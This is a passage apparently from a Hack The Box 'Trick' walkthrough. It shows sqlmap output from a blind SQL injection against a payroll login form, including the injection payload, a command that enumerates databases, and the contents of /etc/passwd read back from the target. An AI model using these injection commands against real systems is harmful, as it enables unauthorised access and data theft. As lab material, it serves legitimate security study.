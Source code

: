 ```
[07:00:28] [INFO] the remote file '/etc/passwd' is larger (2351 B) than the local file '/home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb./files/_etc_passwd' (39B)
files saved to [1]:
[*] /home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb./files/_etc_passwd (size differs from remote file)

[07:00:28] [INFO] fetched data logged to text files under '/home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb.'

[*] ending @ 07:00:28 /2023-02-07/

└─$ cat /home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb./files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

Now i'm interested in the db present

```
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]                                                                                                                                                                  
└─$  sqlmap -r request --batch --technique B --level 5 --dbs                                                                                                                                                       
        ___                                                                                                                                                                                                        
       __H__                                                                                                                                                                                                       
 ___ ___[)]_____ ___ ___  {1.7#stable}                                                                                                                                                                             
|_ -| . [,]     | .'| . |                                                                                                                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                       
                                                                                                                                                                                                                   
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:59:29 /2023-02-07/

[06:59:29] [INFO] parsing HTTP request from 'request'
[06:59:30] [INFO] resuming back-end DBMS 'mysql' 
[06:59:30] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=lol' AND 1401=(SELECT (CASE WHEN (1401=1401) THEN 1401 ELSE (SELECT 3464 UNION SELECT 5831) END))-- pFpw&password=lol
---
[06:59:32] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
```